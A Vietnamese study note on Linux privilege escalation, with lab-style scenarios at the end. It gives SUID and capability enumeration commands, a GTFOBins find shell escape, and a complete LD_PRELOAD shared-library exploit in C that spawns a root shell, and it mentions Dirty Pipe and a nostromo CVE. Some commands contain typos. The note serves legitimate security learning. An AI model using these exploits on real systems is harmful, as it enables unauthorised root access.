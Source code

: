 # Tài liệu và tool/script tham khảo:

[GTFOBins](https://gtfobins.github.io/)
[Fetching Title#vekd](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
---
# Set User ID (SUID)

> [!important] + Là một quyền đặc biệt trên Unix/Linux.<br>+ Khi 1 file thực thi (executable) có SUID bit, người dùng thực thi file đó sẽ có quyền của chủ sở hữu file trong suốt quá trình chạy.<br>+ Dùng SUID cho người dùng bình thường khi cần thực thi, một số tác vụ yêu cầu root nhưng được kiểm soát.

**Ví dụ**: /usr/bin/passwd  
-rwsr-xr-x  
⇒ “**s**” xuất hiện ở cột quyền của user (rws) thể hiện file đã set SUID
```Bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
- **Các options**:
    - -4000 : giá trị của bit SUID
    - 2>/dev/null : bỏ qua lỗi permission denied
```Bash
find / -user root -perm -2000 -exec ls -ldb {} \; 2>/dev/null
```
- **Các options**:
    - -2000 : giá trị của bit SGID
    - 2>/dev/null : bỏ qua lỗi permission denied

> Lợi dụng SUID và SGID để leo thang đặc quyền
> [!important] + Nếu một binary như find, nano, vim, bash, python, ... có SUID ta có thể tận dụng chức năng nó để thực thi shell với quyền root.<br>+ Sử dụng [GTFOBins](https://gtfobins.github.io/).
**Ví dụ**:
```Bash
ls -l /usr/bin/find
```
\#Giả sử có SUID: -rwsr-xr-x  
\#Nhập:
```Bash
./find . -exec /bin/sh -p \; -quit
```
> **Giải thích**: **-p** giúp giữ lại UID của người sở hữu file thực thi ⇒ Lên được root
---
# Linux Capabilities
> [!important] + Chia nhỏ root thành các quyền riêng biệt, chỉ cấp đúng quyền chương trình cần.<br>+ Ví dụ: ping không cần root, chỉ cần cap_net_raw
## Cấu trúc
> [!important] Cấu trúc mỗi file (hoặc tiến trình) có 3 bộ capabilities:
### Permitted(**p**)
Danh sách capabilities mà tiến trình được phép dùng.
Nếu capability không nằm trong **p** thì tiến trình tuyệt đối không được phép dùng capability đó dù bằng cách nào.

### Effective(e)
Danh sách capabilities hiện đang được kích hoạt và có hiệu lực. Nếu capability chỉ nằm trong **p** mà không nằm trong **e** thì được phép có nhưng chưa được dùng.

### Inheritable(i)
Danh sách capabilities có thể truyền sang tiến trình con (ít gặp hơn).

## Quét capability

```Bash
getcap -r /2>/dev/null
```
```Bash
getcap -r /2>/dev/null | grep -E 'cap_(sys_admin|dac_override|setuid|setgid)'
```
> **Lưu ý**: Có thể cần phải whereis getcap rồi dùng path mới chạy command được.

### Một số capability nguy hiểm có thể exploit

- cap_sys_admin : làm được mọi thứ
- cap_dac_override : bỏ qua mọi permission checking (read, exec file, ...)
- cap_setuid / cap_setgid : chuyển UID, GID ⇒ leo thang
- cap_net_raw : gửi packet (sniff, spoof)
- cap_sys_module : load kernel module
---
# Shared Libraries và leo thang đặc quyền qua LD_PRELOAD

> [!important] Cách khai thác: user thường ⇒ kiểm tra sudo -l ⇒ phát hiện quyền chạy binary nào đó (no passwd) ⇒ phát hiện LD_PRELOAD ⇒ Viết mã C ⇒ Chạy sudo LD_PRELOAD=/tmp/es.co/binary ⇒ Lên root
> [!important] Shared Libraries là những đoạn mã được biên dịch sẵn mà nhiều chương trình có thể dùng lại thay vì viết lại từ đầu.
**Có 2 loại**:
- Static libary (.a) : gộp trực tiếp vào binary khi biên dịch.
- Shared library (.so) : được load khi chương trình chạy.
Muốn xem một chương trình cần libary nào ⇒
```Bash
ldd /bin/ping
```

> [!important] LD_PRELOAD là biến môi trường đặc biệt trong Linux. Nó sẽ ép hệ thống load thư viện mà ta chỉ định của chương trình. Cho phép ta override lên các hàm hệ thống như getuid(); system(); …
> [!important] Cách khai thác: giả sử ta là user thường, có quyền chạy binary nào đó bằng sudo, không yêu cầu mật khẩu:

```Bash
sudo -l
```
```Bash
(ALL) NOPASSWD: /usr/local/bin/sys_backup
```

⇒ /usr/local/bin/sys_backup không là SUID, không thuộc GTFOBins nên không khai thác trực tiếp được.
Tuy nhiên, ta thấy:
```Bash
env_keep+=LD_PRELOAD
```
⇒ Lỗ hỏng.

**Các bước khai thác**:
+ Bước 1: Viết chương trình C:
```C
\#include <stdio.h>
\#include <stdlib.h>
\#include <sys/types.h>

void_init() {
	unsetenv("LD_PRELOAD");
	setresuid(0, 0, 0);
	system("/bin/bash -p");
}
```
⇒ Dùng init() để Shared Libraries load bằng LD_PRELOAD thì hàm _init() chạy đầu tiên.

+ Bước 2: Compile code thành shared object (.so)
```Bash
gcc -fPIC -shared -nostartfiles -o /tmp/escalate.so escalate.c
```
> **Giải thích**: -fPIC dùng để tạo mã máy không phụ thuộc vào địa chỉ cố định trên bộ nhớ. Vì .so có thể load cùng nhiều process khác nhau tại các vị trí khác nhau. Nếu không có -fPIC thì thư viện có thể bị crash.  
> -shared : tạo ra moọt .so thay vì .out hoặc ELF binary.  
> -nostartfiles : chỉ định gcc không thêm bất kỳ starup files nào vào chương trình. Nó sẽ tạo các file như: _start, crt1.0, … để khởi tạo môi trường trước khi gọi main(); nhưng ta không cần main() mà chỉ cần _init().

+ Bước 3: Gọi binary được cấp quyền bằng LD_PRELOAD:
```Bash
sudo LD_PRELOAD=/tmp/escalte.so /usr/local/bin/sys_backup
```
⇒ Lấy được root
---
# Một ví dụ khai thác thực tế:
## Tình huống 1:
Quét nmap thì tra ra được nostromo 1.9.6, OSINT ta biết CVE-2019-16278 nên ta sẽ khai thác được 1 chút và vào được shell của một user có giới hạn.
Giờ ta leo thang bằng cách uname -a thì tra được version kernel là 5.11.051100-generic thì có lỗi là CVE-2022-0847. Vào github thì có cả file sẵn để khai thác. Điều hướng cd/tmp (vì các khu vực khác ta không có quyền đọc/ghi). Tạo một python3 -m http.server 8080 để mở một server cho phép wget trên target machine.
Ta biên dịch ra:
```Bash
gcc exploit -2.c -o exploit -2
```
Ta có thể check SUID, dù không có trên GTFOBins nhưng vẫn có thể:
```Bash
./exploit-2 /usr/bin/su
```
⇒ **Root**

## Tình huống 2:
Quét nmap tra được ssh, brute-force rồi kiểm tra capabilities thì thấy python3.9 có +ep, ta kiểm tra GTFOBins ⇒ **Root**
